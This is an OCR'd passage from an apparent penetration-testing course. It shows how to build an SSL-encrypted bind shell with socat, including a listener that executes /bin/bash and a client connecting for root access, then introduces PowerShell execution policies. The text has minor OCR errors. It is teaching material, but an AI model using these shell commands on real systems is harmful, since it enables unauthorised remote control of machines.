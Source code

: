 ```
kali@kali : ~$ cat bind_shell.key bind_shell.crt > bind_shell.pem
```

We will use the OPENSSL-LISTEN option to create the listener on port 443, cert=bi nd_shel. l.. pem
to specify our certificate file, verify to disable SSL verification, and fork to spawn a child process
once a connection is made to the listener:

```
kali@kali : ~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

We will use - to transfer data between STDIO and the remote host, OPENSSL to establish a remote
SSL connection to Alice's listener on 192.168.0.223:443, and verify=0 to disable SSL certificate
verification:

```
c:\socat>socat - OPENSSL:192.168.0.223:443,verify=0
id
uid=0(root) gid=0(root) groups=0(root),141(kaboxer)
whoami
root
```

### PowerShell and Powercat

Windows PowerShell  is a task-based command line shell and scripting language. It is designed
specifically for system administrators and power-users to rapidly automate the administration of
multiple operating systems (Linux, macOS, Unix, and Windows) and the processes related to the
applications that run on them.

Needless to say, PowerShell is a powerful tool for penetration testing and can be installed on (or is
installed by default on) various versions of Windows. It is installed by default on modern Windows
platforms beginning with Windows Server 2008 R2 and Windows 7. 

Windows PowerShell 5.0 runs on the following versions of Windows:

- Windows Server 2016, installed by default
- Windows Server 2012 R2/Windows Server 2012/Windows Server 2008 R2 with Service Pack
  1 /Windows 8.1 /Windows 7 with Service Pack 1 (install Windows Management Framework
  5.0 to run it)

Windows PowerShell 4.0 runs on the following versions of Windows:

- Windows 8.1 /Windows Server 2012 R2, installed by default

- Windows 7 with Service Pack 1 /Windows Server 2008 R2 with Service Pack 1 (install
  Windows Management Framework 4.0 to run it)

Windows PowerShell 3.0 runs on the following versions of Windows:

- Windows 8/Windows Server 2012, installed by default
- Windows 7 with Service Pack 1 /Windows Server 2008 R2 with Service Pack 1 /2 (install
  Windows Management Framework 3.0 to run it)

PowerShell maintains an execution policy that determines which type of PowerShell scripts (if any)
can be run on the system. The default policy is "Restricted", which effectively means the system
will neither load PowerShell configuration files nor run PowerShell scripts. For the purposes of this
module, we will need to set an ·unrestricted» execution policy on our Windows cl ient machine. To
do this, we click the Windows Start button, right-click the Windows PowerShe/1 application and
select Run as Administrator. When presented with a User Account Control prompt, select Yes and
enterSet-ExecutionPolicy Unrestricted:
